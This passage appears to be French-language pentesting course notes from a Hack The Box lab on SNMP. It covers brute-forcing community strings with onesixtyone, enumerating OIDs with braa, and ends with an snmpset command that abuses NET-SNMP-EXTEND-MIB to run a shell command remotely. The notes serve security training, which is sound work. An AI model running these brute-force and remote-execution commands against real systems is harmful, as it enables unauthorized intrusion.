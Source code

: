 Ici, nous reconnaissons certains packages Python qui ont été installés sur le système. Si nous ne connaissons pas la chaîne communautaire, nous pouvons utiliser les listes de mots onesixtyone et SecLists pour identifier ces chaînes communautaires.

### OneSixtyOne
```
dsgsec@htb[/htb]$ sudo apt install onesixtyone
dsgsec@htb[/htb]$ onesixtyone -c /opt/useful/SecLists/Discovery/SNMP/snmp.txt 10.129.14.128

Scanning 1 hosts, 3220 communities
10.129.14.128 [public] Linux htb 5.11.0-37-generic #41~20.04.2-Ubuntu SMP Fri Sep 24 09:06:38 UTC 2021 x86_64

```

Souvent, lorsque certaines chaînes de communauté sont liées à des adresses IP spécifiques, elles sont nommées avec le nom d'hôte de l'hôte, et parfois même des symboles sont ajoutés à ces noms pour les rendre plus difficiles à identifier. Cependant, si nous imaginons un réseau étendu avec plus de 100 serveurs différents gérés à l'aide de SNMP, les étiquettes, dans ce cas, auront un certain modèle. Par conséquent, nous pouvons utiliser différentes règles pour les deviner. Nous pouvons utiliser l'outil crunch pour créer des listes de mots personnalisées. La création de listes de mots personnalisées n'est pas une partie essentielle de ce module, mais vous trouverez plus de détails dans le module Cracking Passwords With Hashcat.

Une fois que nous connaissons une chaîne de communauté, nous pouvons l'utiliser avec braa pour forcer brutalement les OID individuels et énumérer les informations derrière eux.

### Braa
```
dsgsec@htb[/htb]$ sudo apt install braa
dsgsec@htb[/htb]$ braa <community string>@<IP>:.1.3.6.*   # Syntax
dsgsec@htb[/htb]$ braa public@10.129.14.128:.1.3.6.*

10.129.14.128:20ms:.1.3.6.1.2.1.1.1.0:Linux htb 5.11.0-34-generic #36~20.04.1-Ubuntu SMP Fri Aug 27 08:06:32 UTC 2021 x86_64
10.129.14.128:20ms:.1.3.6.1.2.1.1.2.0:.1.3.6.1.4.1.8072.3.2.10
10.129.14.128:20ms:.1.3.6.1.2.1.1.3.0:548
10.129.14.128:20ms:.1.3.6.1.2.1.1.4.0:mrb3n@inlanefreight.htb
10.129.14.128:20ms:.1.3.6.1.2.1.1.5.0:htb
10.129.14.128:20ms:.1.3.6.1.2.1.1.6.0:US
10.129.14.128:20ms:.1.3.6.1.2.1.1.7.0:78
...SNIP...
```

Encore une fois, nous tenons à souligner que la configuration indépendante du service SNMP nous apportera une grande variété d'expériences différentes qu'aucun tutoriel ne peut remplacer. Par conséquent, nous vous recommandons vivement de configurer une machine virtuelle avec SNMP, de l'expérimenter et d'essayer différentes configurations. SNMP peut être une aubaine pour un informaticien. administrateur système ainsi qu'une malédiction pour les analystes et les gestionnaires de sécurité.

### RCE
Il est possible d'executer des commandes à distances avec une communauté en droit d'écritures :
https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp/snmp-rce

snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c public 10.129.67.235 \
'nsExtendStatus."evilcommand"' = createAndGo \
'nsExtendCommand."evilcommand"' = sh \
'nsExtendArgs."evilcommand"' = '/usr/share/flag.txt'